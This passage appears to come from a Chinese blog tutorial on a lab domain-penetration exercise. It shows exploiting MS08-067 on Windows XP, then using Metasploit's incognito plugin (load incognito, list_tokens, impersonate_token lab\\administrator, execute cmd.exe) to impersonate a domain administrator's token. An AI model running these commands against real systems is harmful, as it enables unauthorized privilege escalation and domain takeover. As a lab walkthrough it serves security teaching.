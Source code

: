 右键用户，选择新建用户<br/>
<img src="https://img-blog.csdnimg.cn/20200722103555864.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1l1X2NzZG5zdG9yeQ==,size_16,color_FFFFFF,t_70" alt=""/>

##### <a id="ms_08_067win_xp_284"/>利用ms_08_067获取win xp的系统权限

<img src="https://img-blog.csdnimg.cn/20200722105240957.png" alt=""/>

##### <a id="Token_286"/>获取域Token

使用msf如下插件<br/>
`incognito`可以进行toke的伪造，获取等<br/>
<img src="https://img-blog.csdnimg.cn/20200722110202105.png" alt=""/><br/>
首先，load插件

```
load incognito 

```

列出电脑所有的用户token

```
 list_tokens -u  //只有获取了目的主机的系统权限才能 使用这条命令

```

<img src="https://img-blog.csdnimg.cn/20200722110434275.png" alt=""/><br/>
发现并没有域管理员的任何信息<br/>
使用域管理员登陆这台主机<br/>
<img src="https://img-blog.csdnimg.cn/2020072211091176.png" alt=""/>

再次执行列出所有token的命令，发现就多了一条记录<br/>
<img src="https://img-blog.csdnimg.cn/20200722111022174.png" alt=""/>

token伪造

```
 impersonate_token  +token

 impersonate_token lab\\administrator  //这里要用双斜线时因为单斜线具有转义作用。

```

伪造成功后，查看个人信息<br/>
<img src="https://img-blog.csdnimg.cn/2020072211133225.png" alt=""/><br/>
再次`getuid`,已经是域管理员了<br/>
<img src="https://img-blog.csdnimg.cn/2020072211142761.png" alt=""/>

执行当前的权限shell

```
 execute -f cmd.exe -i -t    

```
